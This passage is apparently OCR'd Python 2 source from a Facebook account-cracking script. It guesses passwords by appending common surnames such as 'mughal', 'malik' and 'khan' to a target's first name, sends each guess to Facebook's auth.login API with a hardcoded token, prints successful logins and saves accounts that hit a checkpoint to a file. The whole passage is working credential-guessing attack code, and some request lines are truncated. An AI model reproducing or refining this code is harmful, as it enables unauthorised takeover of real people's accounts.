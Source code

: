 									cek.write(user+"|"+pass3+"\n")
									cek.close()
									cekpoint.append(user+pass3)
								else:
									pass4 = b['first_name'] + 'mughal'
									data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%
									q = json.load(data)
									if 'access_token' in q:
										print '\x1b[1;92mSuccessful\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass4
										oks.append(user+pass4)
									else:
										if 'www.facebook.com' in q["error_msg"]:
											print '\x1b[1;95mCheckpoint\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass4
											cek = open("out/checkpoint.txt", "a")
											cek.write(user+"|"+pass4+"\n")
											cek.close()
											cekpoint.append(user+pass4)
										else:
											pass5 = b['first_name'] + 'malik'
											data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%
											q = json.load(data)
											if 'access_token' in q:
												print '\x1b[1;92mSuccessful\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass5
												oks.append(user+pass5)
											else:
												if 'www.facebook.com' in q["error_msg"]:
													print '\x1b[1;95mCheckpoint\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass5
													cek = open("out/checkpoint.txt", "a")
													cek.write(user+"|"+pass5+"\n")
													cek.close()
													cekpoint.append(user+pass5)
												else:
													pass6 = b['first_name'] + 'khan'
													data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%
													q = json.load(data)
													if 'access_token' in q:
														print '\x1b[1;92mSuccessful\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass6
														oks.append(user+pass6)
													else:
														if 'www.facebook.com' in q["error_msg"]:
															print '\x1b[1;95mCheckpoint\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass6
